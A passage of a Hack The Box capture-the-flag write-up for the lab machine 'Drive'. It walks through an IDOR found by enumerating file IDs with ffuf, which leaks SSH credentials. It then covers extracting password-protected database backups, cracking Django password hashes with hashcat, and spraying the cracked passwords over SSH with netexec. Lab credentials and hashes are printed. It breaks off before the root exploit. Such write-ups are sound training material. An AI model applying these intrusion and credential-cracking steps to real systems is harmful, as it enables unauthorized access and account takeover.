# HTB: Drive

[hackthebox](/tags#hackthebox ) [htb-drive](/tags#htb-drive ) [ctf](/tags#ctf
) [ubuntu](/tags#ubuntu ) [nmap](/tags#nmap ) [django](/tags#django )
[idor](/tags#idor ) [feroxbuster](/tags#feroxbuster ) [ffuf](/tags#ffuf )
[gitea](/tags#gitea ) [sqlite](/tags#sqlite ) [sqli](/tags#sqli ) [sqlite-
injection](/tags#sqlite-injection ) [sqlite-rce](/tags#sqlite-rce )
[hashcat](/tags#hashcat ) [ghidra](/tags#ghidra ) [reverse-
engineering](/tags#reverse-engineering ) [format-string](/tags#format-string )
[canary](/tags#canary ) [bof](/tags#bof ) [pwntools](/tags#pwntools )
[filter](/tags#filter ) [gdb](/tags#gdb ) [peda](/tags#peda )
[ropper](/tags#ropper )  
  
Feb 17, 2024

HTB: Drive

Drive has a website that provides cloud storage. I’ll abuse an IDOR
vulnerability to get access to the administrator’s files and leak some creds
providing SSH access. From there I’ll access a Gitea instance and use the
creds to get access to a backup script and the password for site backups. In
these backups, I’ll find hashes for another use and crack them to get their
password. For root, there’s a command line client binary that has a buffer
overflow. I’ll show that, as well as two ways to get RCE via an unintended SQL
injection.

## Box Info

Name | [Drive](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fdrive)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fdrive)  
---|---  
Release Date | [14 Oct 2023](https://twitter.com/hackthebox_eu/status/1712498448233038212)  
Retire Date | 17 Feb 2024  
OS | Linux   
Base Points | Hard [40]  
Rated Difficulty |   
Radar Graph |   
 | 00:38:51[ xct](https://app.hackthebox.com/users/13569)  
  
 | 01:35:01[ xct](https://app.hackthebox.com/users/13569)  
  
Creator | [ Spectra199](https://app.hackthebox.com/users/414823)  
  
  
## Recon

### nmap

`nmap` finds two open TCP ports, SSH (22) and HTTP (80), as well as port 3000
filtered:

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.235
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-13 14:56 EST
    Nmap scan report for 10.10.11.235
    Host is up (0.093s latency).
    Not shown: 65532 closed ports
    PORT     STATE    SERVICE
    22/tcp   open     ssh
    80/tcp   open     http
    3000/tcp filtered ppp
    
    Nmap done: 1 IP address (1 host up) scanned in 7.19 seconds
    oxdf@hacky$ nmap -p 22,80 -sCV 10.10.11.235
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-13 14:56 EST
    Nmap scan report for 10.10.11.235
    Host is up (0.092s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://drive.htb/
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.97 seconds
    
    

Based on the [OpenSSH](https://packages.ubuntu.com/search?keywords=openssh-
server) version, the host is likely running Ubuntu 20.04 focal. There’s a
redirect on 80 to `http://drive.htb`. Given the user of domain names, I’ll
brute force for any subdomains that respond differently on the webserver, but
not find any. I’ll add `drive.htb` to my `/etc/hosts` file.

### Website - TCP 80

#### Site

The site is for a cloud storage service:

 "Click to expand for full
content")

Only three links on the page go off the page,”Contact Us”, “Register” and
“Login”. The rest of the links jump around on this page. There are some names
and positions, as well as a couple `@drive.htb` email addresses. There’s also
a “Subscribe” box at the bottom. Entering an email and hitting submit sends a
POST request to `/subscribe/`, which returns a 302 Found. It’s not clear if
these are processed or not.

The `/contact/` page has a form:



Submitting sends a POST to `/contact/`, and the response shows a message:



I’ll send some XSS payloads, but nothing every connects back.

Registration goes to `/register/`:



Login at `/login/` looks similar:



#### Authenticated Site

Once I log in, there’s a `/home/` page that shows files:

The only file there has a message from the admins:

In the “Files” menu, I can upload a file, and it tells about the kinds of
files that are accepted above the form:



I can upload a file, and then there are more options than “Just View”:

I can also mark a file as reversed in the “Files” menu. When I pick a file, it
sends a POST to `/blockfile/`:

    
    
    POST /blockFile/ HTTP/1.1
    Host: drive.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://drive.htb/blockFile/
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 113
    Origin: http://drive.htb
    Connection: close
    Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu
    
    files%5B%5D=test&csrfmiddlewaretoken=TV5WYjQQiBYyYAZkMkW1sGSkywsHtNFUpHCtpyVZmOhjW5vhk5K92MuKK6n36yFp&action=post
    

Then I’m redirected to the dashboard, where it shows up with my handle in the
“Reserve” column:

In the “My Files” section, there’s a way to do this with a GET request:

This sends a GET to `/112/block/`, where 112 is the ID for the file (viewing
the file is at `/112/getFileDetail/`).

There are also Groups. I can create a group and add users to it, comma
separated. I’ll try adding users that don’t exist:



When viewing the group, I’ll see that “admin” is added, but the two non-sense
ones are not:



This is a way to enumerate users.

The “Reports” section shows my activity:



#### Tech Stack

The HTTP response headers show only nginx:

    
    
    HTTP/1.1 200 OK
    Server: nginx/1.18.0 (Ubuntu)
    Date: Tue, 13 Feb 2024 20:05:17 GMT
    Content-Type: text/html; charset=utf-8
    Connection: close
    X-Frame-Options: DENY
    Vary: Cookie
    X-Content-Type-Options: nosniff
    Referrer-Policy: same-origin
    Cross-Origin-Opener-Policy: same-origin
    Set-Cookie: csrftoken=FMAJgqV5IHLMXN9PKh36bMxTZZryFxBZ; expires=Tue, 11 Feb 2025 20:05:17 GMT; Max-Age=31449600; Path=/; SameSite=Lax
    Content-Length: 14647
    

`csrftoken` is the default name for this protection in Django (the Python web
framework), so that could be a sign. The 404 page also matches [this reference
for the Django 404](https://www.w3schools.com/django/django_404.php):

#### Directory Brute Force

I’ll start `feroxbuster` on the site, but after a minute is starts returning
500s

[_Click for full
size image_](../img/image-20240213154649927.png)

There’s nothing super interesting in here that I don’t find by browsing the
site.

## Shell as martin

### Access Private Files

#### Groups

The URL for a group is `/[id]/getGroupDetail/`. Similarly, the URL for a file
is `/[id]/getFileDetail/`. I’ll test to see how other ids respond. For
example, groups:

    
    
    oxdf@hacky$ ffuf -u http://drive.htb/FUZZ/getGroupDetail/ -w <(seq 1 500) -fc 500  -H "Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu"
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://drive.htb/FUZZ/getGroupDetail/
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Header           : Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
     :: Filter           : Response status: 500
    ________________________________________________
    
    28                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 364ms]
    39                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 374ms]
    40                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 401ms]
    42                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 302ms]
    47                      [Status: 200, Size: 5407, Words: 1244, Lines: 193, Duration: 300ms]
    49                      [Status: 200, Size: 5407, Words: 1244, Lines: 193, Duration: 293ms]
    48                      [Status: 200, Size: 5406, Words: 1244, Lines: 193, Duration: 299ms]
    :: Progress: [500/500] :: Job [1/1] :: 142 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
    

Here, I have `ffuf` hit `http://drive.htb/FUZZ/getGroupDetail/` to check for
all group numbers. For the wordlist, I’ll use `-w <(seq 1 500)`, which uses
[process substitution](https://en.wikipedia.org/wiki/Process_substitution) to
pretend there’s a file containing the numbers 1 through 500 one per line. `-fc
500` will hide results that return HTTP 500, which is what happens when
there’s a non-existent id. I’ll also need to include my cookie, which I can
grab from Burp.

I’ll note that the last three are groups I created (47-49) and return 200. The
others, 28, 39, 40, and 42, return 401. Trying to visit these return 401
Unauthorized:

    
    
    HTTP/1.1 401 Unauthorized
    Server: nginx/1.18.0 (Ubuntu)
    Date: Tue, 13 Feb 2024 21:11:32 GMT
    Content-Type: application/json
    Content-Length: 26
    Connection: close
    X-Frame-Options: DENY
    Vary: Cookie
    X-Content-Type-Options: nosniff
    Referrer-Policy: same-origin
    Cross-Origin-Opener-Policy: same-origin
    
    {"status": "unauthorized"}
    

#### Files

I can do the same attack on files:

    
    
    oxdf@hacky$ ffuf -u http://drive.htb/FUZZ/getFileDetail/ -w <(seq 1 500) -fc 500  -H "Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu"
    
            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       
    
           v2.0.0-dev
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://drive.htb/FUZZ/getFileDetail/
     :: Wordlist         : FUZZ: /dev/fd/63
     :: Header           : Cookie: csrftoken=GWHHBpfjentV8FG7IVYiKgMAmK5wNVaF; sessionid=c8xebin9cekvgy59r1de8wvfmllxgrnu
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
     :: Filter           : Response status: 500
    ________________________________________________
    
    79                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 336ms]
    99                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 335ms]
    98                      [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 347ms]
    101                     [Status: 401, Size: 26, Words: 2, Lines: 1, Duration: 327ms]
    100                     [Status: 200, Size: 5078, Words: 1147, Lines: 172, Duration: 357ms]
    112                     [Status: 200, Size: 5053, Words: 1062, Lines: 167, Duration: 334ms]
    :: Progress: [500/500] :: Job [1/1] :: 149 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
    

There are two files I can access. 112 is the test file I uploaded, and 100 is
the “Welcome_to_Doodle_Grive!” file owned by admin. There are four other files
that I can’t access - 79, 98, 99, and 101.

It’s worth noting that while I would expect an API endpoint like
`/[id]/block/` to set the reserved attribute to my user id, that actually
returns a page:



#### IDOR

The `/[id]/block/` page will show files that I otherwise can’t access:



This is an insecure direct object reference (IDOR) vulnerability.

#### Content

The four files each contain some clues about the rest of the box. 101 (above)
has references to a scheduled backup for the DB in `/var/www/backups` (that
may change) that has a strong password.

ID 98 has references to an edit functionality:



99 has says that the dev team needs to stop using the platform for chat, and
references security issues:

Most importantly, 79 has a username and password:



### SSH

That username and password work for SSH access to Drive:

    
    
    oxdf@hacky$ sshpass -p 'Xk4@KjyrYv8t194L!' ssh martin@drive.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)
    ...[snip]...
    martin@drive:~$
    

## Shell as tom

### Enumeration

#### Home Directories

martin’s home directory is basically empty:

    
    
    martin@drive:~$ ls -la
    total 32
    drwxr-x--- 5 martin martin 4096 Sep 11 09:24 .
    drwxr-xr-x 6 root   root   4096 Dec 25  2022 ..
    lrwxrwxrwx 1 root   root      9 Sep  6 02:56 .bash_history -> /dev/null
    -rw-r--r-- 1 martin martin  220 Dec 25  2022 .bash_logout
    -rw-r--r-- 1 martin martin 3771 Dec 25  2022 .bashrc
    drwx------ 2 martin martin 4096 Dec 25  2022 .cache
    drwx------ 3 martin martin 4096 Jan  7  2023 .gnupg
    -rw-r--r-- 1 martin martin  807 Dec 25  2022 .profile
    drwx------ 3 martin martin 4096 Jan  7  2023 snap
    

There are three other directories in `/home`:

    
    
    martin@drive:/home$ ls
    cris  git  martin  tom
    

martin is not able to access any of them.

#### opt

There are two scripts in `/opt`:

    
    
    martin@drive:/opt$ ls -l
    total 8
    -r-x------ 1 www-data www-data  187 Feb 11  2023 nginx-log-size-handler.sh
    -r-x------ 1 www-data www-data 3834 Feb  8  2023 server-health-check.sh
    

Interestingly, they are only accessible to the www-data user.

#### Web Directories

In `/var/www`, there are three directories:

    
    
    martin@drive:/opt$ ls -l /var/www/
    total 12
    drwxr-xr-x 2 www-data www-data 4096 Sep  1 18:23 backups
    drwxrwx--- 8 www-data www-data 4096 Feb 14 14:34 DoodleGrive
    drwxr-xr-x 2 root     root     4096 Jan  7  2023 html
    

Only www-data can access `DoodleGrive`, and `html` is just the default nginx
page:

    
    
    martin@drive:/var/www$ cd DoodleGrive/
    -bash: cd: DoodleGrive/: Permission denied
    martin@drive:/var/www$ ls html/
    index.nginx-debian.html
    

`backups` is what was mentioned in the file:

    
    
    martin@drive:/var/www/backups$ ls
    1_Dec_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  db.sqlite3
    1_Nov_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z
    

I am able to list the contents of each backup:

    
    
    martin@drive:/var/www/backups$ 7z l 1_Dec_db_backup.sqlite3.7z 
    ...[snip]...
       Date      Time    Attr         Size   Compressed  Name
    ------------------- ----- ------------ ------------  ------------------------
    2022-12-26 06:21:51 ....A      3760128        12848  DoodleGrive/db.sqlite3
    ------------------- ----- ------------ ------------  ------------------------
    2022-12-26 06:21:51            3760128        12848  1 files
    martin@drive:/var/www/backups$ 7z l 1_Nov_db_backup.sqlite3.7z 
    ...[snip]...
       Date      Time    Attr         Size   Compressed  Name
    ------------------- ----- ------------ ------------  ------------------------
    2023-09-01 18:25:59 ....A      3760128        12080  db.sqlite3
    ------------------- ----- ------------ ------------  ------------------------
    2023-09-01 18:25:59            3760128        12080  1 files
    martin@drive:/var/www/backups$ 7z l 1_Oct_db_backup.sqlite3.7z 
    ...[snip]...
       Date      Time    Attr         Size   Compressed  Name
    ------------------- ----- ------------ ------------  ------------------------
    2022-12-26 06:02:42 ....A      3760128        12576  db.sqlite3
    ------------------- ----- ------------ ------------  ------------------------
    2022-12-26 06:02:42            3760128        12576  1 files
    martin@drive:/var/www/backups$ 7z l 1_Sep_db_backup.sqlite3.7z
    ...[snip]...
       Date      Time    Attr         Size   Compressed  Name
    ------------------- ----- ------------ ------------  ------------------------
    2022-12-26 06:03:57 ....A      3760128        12624  db.sqlite3
    ------------------- ----- ------------ ------------  ------------------------
    2022-12-26 06:03:57            3760128        12624  1 files
    

Each archive contains a `db.sqlite3` file. The timestamps for the archives and
the databases inside them are very confusing. I’m going to chalk that up to
poor work on the author / HTB’s part and try not to read too much into it.

Trying to unpack any of the archives prompts for a password:

    
    
    martin@drive:/var/www/backups$ 7z x 1_Dec_db_backup.sqlite3.7z 
    
    7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
    p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)
    
    Scanning the drive for archives:
    1 file, 13018 bytes (13 KiB)
    
    Extracting archive: 1_Dec_db_backup.sqlite3.7z
    --
    Path = 1_Dec_db_backup.sqlite3.7z
    Type = 7z
    Physical Size = 13018
    Headers Size = 170
    Method = LZMA2:22 7zAES
    Solid = -
    Blocks = 1
    
        
    Enter password (will not be echoed):
    

No password I have so far works. I could try to exfil them and crack the
password, but first I’ll look at `db.sqlite3`, which I can access:

    
    
    martin@drive:/var/www/backups$ sqlite3 db.sqlite3 
    SQLite version 3.31.1 2020-01-27 19:55:54
    Enter ".help" for usage hints.
    sqlite>
    

There’s nothing too interesting in here. The `accounts_customusers` table has
hashes, and I can quickly crack tomHands password of “john316”, but I don’t
yet has a use for it.

#### Network

`nmap` identified that port 3000 was handling requests differently, showing it
as filtered. It shows up in the `netstat` as well:

    
    
    martin@drive:~$ netstat -tnlp
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::80                   :::*                    LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    tcp6       0      0 :::3000                 :::*                    LISTEN      - 
    

`curl` shows that this is a [Gitea](https://about.gitea.com/) instance:

    
    
    martin@drive:~$ curl -s localhost:3000 | head
    <!DOCTYPE html>
    <html lang="en-US" class="theme-">
    <head>
            <meta charset="utf-8">
            <meta name="viewport" content="width=device-width, initial-scale=1">
            <title> Gitea: Git with a cup of tea</title>
            <link rel="manifest" href="">
            <meta name="theme-color" content="#6cc644">
            <meta name="default-theme" content="auto">
            <meta name="author" content="Gitea - Git with a cup of tea">
    

### Gitea

#### Site

To get better access, I’ll use SSH to create a tunnel from port 3000 on my box
to port 3000 on Drive with `-L 3000:localhost:3000 `. Now in Firefox:


 "Click to expand for full
content")

On the “Explore” link, there are a couple of users visible to unauthenticated
users:



I am able to register myself an account, but it doesn’t give access to
anything additional.

#### As martin

One of the users is martinCruz, and I have a password for a martin user
already. I’ll try it here, and it works! martin has access to one repository
that was not visible before:



This repo is for the website:



I’ll note a couple things:

  * `db_backup.sh` was added in a commit titles “added the new database backup feature”, which was on 22 December 2022. The script itself has the password for the archives:
    
        #!/bin/bash
    DB=$1
    date_str=$(date +'%d_%b')
    7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
    cd /var/www/backups/
    ls -l --sort=t *.7z > backups_num.tmp
    backups_num=$(cat backups_num.tmp | wc -l)
    if [[ $backups_num -gt 10 ]]; then
          #backups is more than 10... deleting to oldest backup
          rm $(ls  *.7z --sort=t --color=never | tail -1)
          #oldest backup deleted successfully!
    fi
    rm backups_num.tmp
    

  * The `geeks_site` folder has a last comment message referencing going back to “default Django hashes due to problems in BCrypt”, dated 26 December 2022. That specifically applies to a `settings.py` file. The history of the file shows it set to SHA1 to Bcrypt and back to SHA1:

### Backup Databases

#### Extracting

With the password, I’ll revisit the backup archives. I can extract each to
`/dev/shm` with the following command:

    
    
    martin@drive:/var/www/backups$ 7z e -o/dev/shm 1_Oct_db_backup.sqlite3.7z -p'H@ckThisP@ssW0rDIfY0uC@n:)'
    ...[snip]...
    martin@drive:/var/www/backups$ mv /dev/shm/db.sqlite3 /dev/shm/oct.sqlite3
    

After doing all four, I have:

    
    
    martin@drive:/dev/shm$ ls
    dec.sqlite3  nov.sqlite3  oct.sqlite3  sep.sqlite3
    

#### Structure

Each of the backups are basically the same as each other and the `db.sqlite3`
that I could access above. I’ll show the general structure here, and call out
the differences later.

The database looks like a Django DB based on the table names:

    
    
    sqlite> .tables
    accounts_customuser                   auth_permission                     
    accounts_customuser_groups            django_admin_log                    
    accounts_customuser_user_permissions  django_content_type                 
    accounts_g                            django_migrations                   
    accounts_g_users                      django_session                      
    auth_group                            myApp_file                          
    auth_group_permissions                myApp_file_groups 
    

A bunch of the tables are empty. `myApp_file` has the content from the files I
was able to read with the IDOR:

    
    
    sqlite> select * from myApp_file;
    98|documents/crisDisel/Hi|b'hi team\nhave a great day.\nwe are testing the new edit functionality!\nit seems to work great!\n'|2022-12-24 16:52:22.971837|24||Hi!
    99|documents/jamesMason/security_announce|b'hi team\nplease we have to stop using the document platform for the chat\n+I have fixed the security issues in the middleware\nthanks! :)\n'|2022-12-24 16:55:56.501240|21||security_announce
    101|documents/jamesMason/database_backup_plan|hi team!
    me and my friend(Cris) created a new backup scheduled plan for the database
    the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM
    *Note: the backup directory may change in the future!
    *Note2: the backup would be protected with strong password! don't even think to crack it guys! :)|2022-12-24 22:49:49.515472|21|21|database_backup_plan!
    

Most interesting is the `accounts_customuser` table, which has hashes for
users that match up nicely with some local accounts on Drive:

    
    
    sqlite> select * from accounts_customuser;
    21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
    22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
    23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
    24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
    30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
    

There are tables with group names and how they tie to files, but nothing too
interesting.

#### Differences

One place that I see differences is the `myApp_file` table, as the older
backups don’t have as many messages. Still, there’s nothing I haven’t seen
before.

Another place to look for differences is in the `accounts_customuser` table.
I’ll loop over each and dump the hashes:

    
    
    martin@drive:/dev/shm$ ls | while read db; do echo "$db"; sqlite3 "$db" 'select username,password from accounts_customuser;'; done
    db.sqlite3
    jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
    crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    dec.sqlite3
    admin|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=
    jamesMason|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=
    martinCruz|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=
    tomHands|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=
    crisDisel|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=
    nov.sqlite3
    jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands|sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
    crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    oct.sqlite3
    jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands|sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
    crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    sep.sqlite3
    jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands|sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
    crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    

The BCrypt hashes (start with `pbkdf2`) are going to be very difficult to
crack. I’ll start with the others. There are eight unique hashes, four of
which belong to tom:

    
    
    martin@drive:/dev/shm$ ls | while read db; do echo "$db"; sqlite3 "$db" 'select username,password from accounts_customuser;'; done | grep sha1 | sort -u | tr '|' ':'
    admin:sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    crisDisel:sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    jamesMason:sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz:sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands:sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
    tomHands:sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
    tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
    tomHands:sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
    

### Crack Passwords

I’ll take the usernames and hashes from the backup DB and send them through
`hashcat`:

    
    
    $ hashcat hashes --user /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
                                                   
    124 | Django (SHA-1) | Framework
    ...[snip]...
    sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
    sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93:john boy
    sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:johniscool
    sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
    ...[snip]...
    

All four passwords for tomHands crack.

### SSH

#### Identify Password

To quickly check is any of these work over SSH, I’ll create a text file with
one per line, and feed it to `netexec`:

    
    
    oxdf@hacky$ netexec ssh drive.htb -u tom -p tom_passwords 
    SSH         10.10.11.235    22     drive.htb        [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
    SSH         10.10.11.235    22     drive.htb        [-] tom:john316 Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [-] tom:john boy Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [-] tom:johniscool Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [+] tom:johnmayer7  - shell access!
    

It works!

#### Shell

I’ll connect over SSH:

    
    
    oxdf@hacky$ sshpass -p 'johnmayer7' ssh tom@drive.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)
    ...[snip]...
    tom@drive:~$
    

`su` also works from the shell as martin:

    
    
    martin@drive:/dev/shm$ su - tom
    Password: 
    tom@drive:~$
    

Either way, I can grab `user.txt`:

    
    
    tom@drive:~$ cat user.txt
    20b6a381************************
    

## Shell as root

### Enumeration

In the tom user’s home directory, there’s a `doodleGrive-cli` file that’s
owned by root and set as SetUID:

    
    
    tom@drive:~$ ls -l
    total 876
    -rwSr-x--- 1 root tom 887240 Sep 13 13:36 doodleGrive-cli
    -rw-r----- 1 root tom    719 Feb 11  2023 README.txt
    -rw-r----- 1 root tom     33 Feb 12 21:26 user.txt
    

The `README.txt` says:

    
    
    Hi team
